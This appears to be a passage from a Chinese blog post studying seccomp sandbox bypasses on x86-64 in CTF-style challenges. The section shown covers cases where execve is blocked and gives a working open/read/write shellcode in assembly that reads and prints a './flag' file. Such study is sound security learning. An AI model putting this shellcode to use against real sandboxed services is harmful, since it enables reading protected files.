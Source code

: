 ```yaml
---
title: seccomp学习 (2)
date: 2023-10-31 09:59:09
categories:
- 学习笔记
- seccomp 系列
---
```


在本文中，我们来讨论一下近年来针对seccomp的绕过姿势。本文仅讨论x86-64平台。（来货了来货了）

# 0x01. execve

这个是最为简单的一类题型，不能直接获得shell，但是可以通过open、read、write三个系统调用将flag文件首先保存到内存之中再输出到控制台。

下面的代码是在内存中不存在"./flag"字符串的情况下绕过execve的orw shellcode：

函数原型：
```c
    long sys_open(const char __user *filename, int flags, umode_t mode);
    long sys_read(unsigned int fd, char __user *buf, size_t count);
    long sys_write(unsigned int fd, const char __user *buf, size_t count);
```
这里对于`read`和`write`函数的参数都不需要解释，对于`open`函数，`flags`参数表示以何种方式打开文件，0为只读，当`open`没有创建文件时，`mode`参数会被忽略，不过最好还是也传入0。

示例：

```masm
    mov rax, 0x67616c662f2e
    push rax
    mov rdi, rsp
    xor edx, edx
    xor esi, esi
    push SYS_open
    pop rax
    syscall
    
    push 3
    pop rdi
    push 0xFF   /* read size */
    pop rdx
    mov rsi, rsp
    push SYS_read
    pop rax
    syscall
    
    push 1
    pop rdi
    push 0xFF   /* write size */
    pop rdx
    mov rsi, rsp
    push SYS_write
    pop rax
    syscall
```
